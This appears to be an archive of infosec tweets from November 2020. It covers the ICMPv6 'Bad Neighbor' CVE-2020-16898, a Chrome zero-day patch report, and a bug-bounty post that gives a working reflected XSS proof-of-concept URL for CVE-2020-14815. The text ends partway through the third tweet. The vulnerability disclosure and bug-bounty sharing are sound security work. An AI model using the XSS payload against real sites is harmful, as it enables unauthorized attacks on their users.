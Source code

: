 
# ptracesecurity
**https://twitter.com/ptracesecurity/status/1327652599051464704 _at 2020-11-14, 16:40:20_**
<blockquote>
Exploring the Exploitability of “Bad Neighbor”: The Recent ICMPv6 Vulnerability (CVE-2020-16898)  https://t.co/WHjYcHvudH  #Pentesting #RCE #Vulnerability #CyberSecurity #Infosec https://t.co/CpYiv9N27y
</blockquote>

* https://blog.zecops.com/vulnerabilities/exploring-the-exploitability-of-bad-neighbor-the-recent-icmpv6-vulnerability-cve-2020-16898/

<table><tr>
<td><img src="pictures/27002fe0df962bec0e4296099c63a420bcc204a487f97a7ba38702992ba52869.jpg" alt="27002fe0df962bec0e4296099c63a420bcc204a487f97a7ba38702992ba52869.jpg"></td>
<td><img src="pictures/969880f9d01d1291a4f27f0bdff5105f8fcc5ff1f2390ed55df6b6c1294a6214.jpg" alt="969880f9d01d1291a4f27f0bdff5105f8fcc5ff1f2390ed55df6b6c1294a6214.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>81</code></td>
</tr></table>

---

# HackerOn2Wheels
**https://twitter.com/HackerOn2Wheels/status/1326927875279380480 _at 2020-11-12, 16:40:33_**
<blockquote>
Nothing critical, but here is the PoC for the new CVE I got credited for: CVE-2020-14815. 

https://target[.]com/bi-security-login/login.jsp?msi=false&amp;redirect="&gt;&lt;img/src/onerror%3dalert(document.domain)&gt;

Got a couple of Med in H1 using it. Have Fun!

#bugbounty #bugbountytips https://t.co/A8qx640VgE
</blockquote>

<table><tr>
<td><img src="pictures/cf7bc56763d282ad9fc7ff026c1d34dccfd26704a9b34d180dcdc150c4605d42.jpg" alt="cf7bc56763d282ad9fc7ff026c1d34dccfd26704a9b34d180dcdc150c4605d42.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>134</code></td>
<td>Favorites: <code>343</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1326656333580480514 _at 2020-11-11, 22:41:32_**
<blockquote>
BREAKING: Google patches two more Chrome zero-days
